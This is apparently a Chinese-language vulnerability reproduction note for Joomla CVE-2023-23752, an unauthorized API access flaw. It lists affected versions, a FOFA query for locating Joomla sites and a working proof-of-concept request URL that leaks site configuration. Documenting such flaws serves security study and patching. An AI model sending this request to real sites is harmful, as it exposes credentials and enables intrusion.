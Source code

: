 # Joomla application 未授权访问漏洞 CVE-2023-23752

## 漏洞描述

Joomla 存在未授权访问漏洞，攻击者通过覆盖 public 值绕过限制，访问部分API获取敏感数据

## 漏洞影响

```
Joomla 4.0.0 - 4.2.7
```

## FOFA

```
app="Joomla"
```

## 漏洞复现

登陆页面

![image-20230313171122485](images/image-20230313171122485.png)

验证POC

```
/api/index.php/v1/config/application?public=true
```

![image-20230313171136037](images/image-20230313171136037.png)
